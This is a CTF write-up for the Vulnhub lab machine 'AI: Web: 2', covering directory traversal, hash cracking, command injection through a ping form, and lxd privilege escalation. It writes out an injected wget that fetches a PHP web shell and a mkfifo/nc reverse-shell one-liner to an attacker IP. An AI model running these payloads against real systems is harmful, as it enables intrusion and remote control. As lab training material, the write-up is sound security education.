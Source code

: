 ```yaml
---
layout: post
title: Vulnhub - AI:Web:2 writeup
date: 2019-09-03 8:45 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ai-web-2,357/">AI: Web: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@arif_xpress">  Mohammad Ariful Islam</a></h4>

## Nmap

![](images/ai2/nmap.png)

Nothing fancy. Let's just start with the port 80

***

## HTTP

![](images/ai2/website.png)

We can see two options, one to login and one to signup. If we try to login with some username guessing then we'll get `illegal username`. So I `signup` as `admin` and then login as `admin`

![](images/ai2/logi.png)

All the of the options were disabled. There was a code section on that page but it was commented so I didn't thought of it much.

I searched for `XuezhuLi FileSharing` using `searchsploit` and found a directory traversal exploit.

![](images/ai2/exploits.png)

I used the directory traversal exploit i.e [XuezhuLi FileSharing - Directory Traversal](https://www.exploit-db.com/exploits/40009) and it worked.

![](images/ai2/traversal.png)

After some guessing I found the hash of the password used.

![](images/ai2/hash.png)

Now we need to crack the hash.

```
You may need to crack password. Use wordlist SecLists/rockyou-45.txt by Mr. Daniel Miessler.
```

This was given in the description of the machine on Vulnhub. So I downloaded the said list i.e [Seclists/rockyou-45.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-45.txt). And then started John on the hash.

With that list I was able to crack the password in 2 seconds.

![](images/ai2/crack.png)

`c.ronaldo:aiweb2admin`

I had credentials but there wasn't any place to login. I tried SSH but it didn't worked. So after that I ran `dirsearch` and it found a dir named `webadmin`.

![](images/ai2/dirsearch.png)

When I tried visiting it I was prompted for username and password. I used the credentials I found and I was in.

![](images/ai2/website-1.png)

Since that sentence is referring to `robots.txt` I opened that and found 2 disallowed directories.

![](images/ai2/robots.png)

When I visited `http://192.168.184.136/webadmin/H05Tpin9555/#` there was a submit form where we could enter and IP and it might ping it.

I was able to execute command by using `|` after the command.

![](images/ai2/cmd-inj.png)

Now I used this to upload a `phpbash.php` file and then from there I a proper reverse shell.

In order to do so.
* Start a `python -m http.server` in the folder where your `phpbash.php` file is present.
* `3232282625|wget http://192.168.184.1:8000/phpbash.php`

__Here the `3232282625` is the decimal representation of the IP `192.168.184.1`.__

If everything is good then you'll get a shell if you visit `webadmin/H05Tpin9555/phpbash.php`.

![](images/ai2/phpbash.png)

Then I used this to run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f` and got a proper shell.

![](images/ai2/rev.png)

***

## Horizontal Privilege escalation

I couldn't find anything with enumeration script. So I looked in the `/webadmin/S0mextras`, there I found SSH credentials

![](images/ai2/ssh-creds.png)

```
User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf
```

With those I was able to login via SSH.

![](images/ai2/ssh.png)


***

## Vertical Privilege escalation

[@theart42](https://twitter.com/theart42) figured out that the user `n0nr00tuser` is grouped with `lxd` so we figure that we need to escalate with that.

![](images/ai2/id.png)

There is an exploit for that, [Ubuntu 18.04 - 'lxd' Privilege Escalation](https://www.exploit-db.com/exploits/46978).

So I followed the exploit:

1) `wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine`
2) `sudo bash build-alpine`
3) Transfer this build image to the VM.
4) Run the script and you'll find the flag in `/mnt/root/root`

![](images/ai2/root-shell.png)

![](images/ai2/root.png)

***

This was also pretty good machine. We didn't had to do any guessing or bruteforcing which was really good. Everything was in a flow.

Thanks to [@arif_xpress](https://twitter.com/arif_xpress) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
